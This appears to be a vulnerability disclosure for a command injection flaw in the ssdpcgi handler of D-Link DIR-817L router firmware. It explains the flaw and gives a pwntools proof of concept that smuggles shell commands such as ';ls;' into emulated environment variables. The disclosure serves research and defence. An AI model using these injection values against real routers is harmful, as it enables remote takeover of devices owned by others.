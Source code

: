 # D-Link DIR-817L has a remote arbitrary command execution vulnerability in ssdpcgi

Affected versions: Firmware version <= Firmware v1.04B01

The program obtains environment variable parameters through `getenv`, and only filters backquote characters, without effectively restricting other special symbols that may trigger command execution. An attacker can construct a string similar to `ssdp:all+command` to inject malicious content into the parameters passed to the `lxmldbc_system` function. Because the function uses `sprintf` to splice the command string and executes it through `system`, it eventually leads to a command injection vulnerability, which allows an attacker to achieve remote code execution. This can then achieve malicious attacks such as rebound shells.

![image-20250701183716269](https://cdn.jsdelivr.net/gh/Thir0th/blog-image/image-20250701183716269.png)

![image-20250701184135375](https://cdn.jsdelivr.net/gh/Thir0th/blog-image/image-20250701184135375.png)

![image-20250701184218430](https://cdn.jsdelivr.net/gh/Thir0th/blog-image/image-20250701184218430.png)



POC

```
from pwn import*
context.terminal = ['gnome-terminal', '--', 'bash', '-c']
context.arch='mips'
context.os='linux'
context.endian = 'big'
context.log_level = 'debug'
def bug():
    gdb.attach(target=("localhost", 8888), exe="./htdocs/cgibin",
               gdbscript="""
               b *0x40E210\n    
               c\n
               """)
    pause()
def s(a):
	p.send(a)
def sa(a,b):
	p.sendafter(a,b)
def sl(a):
	p.sendline(a)
def sla(a,b):
	p.sendlineafter(a,b)
def r(a):
	p.recv(a)
def rl(a):
	return p.recvuntil(a)
def inter():
	p.interactive()

li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')


#cmd=input("command:")
pay=cyclic(0x100)
print(pay)
post_content = "Thir0th=AGRiot"
p = process(f'''
qemu-mips -L . \
  -0 "ssdpcgi" \
  -E HTTP_ST="ssdp:all;ls>" \
  -E REMOTE_ADDR="{pay}" \
  -E REMOTE_PORT=";ls;" \
  -E SERVER_ID="router" \
  -g 8888 \
  ./htdocs/cgibin ssdpcgi
''',shell=True)
bug()


p.send(post_content)







inter()
```

successfully executed

![image-20250719141248661](https://cdn.jsdelivr.net/gh/Thir0th/blog-image/image-20250719141248661.png)
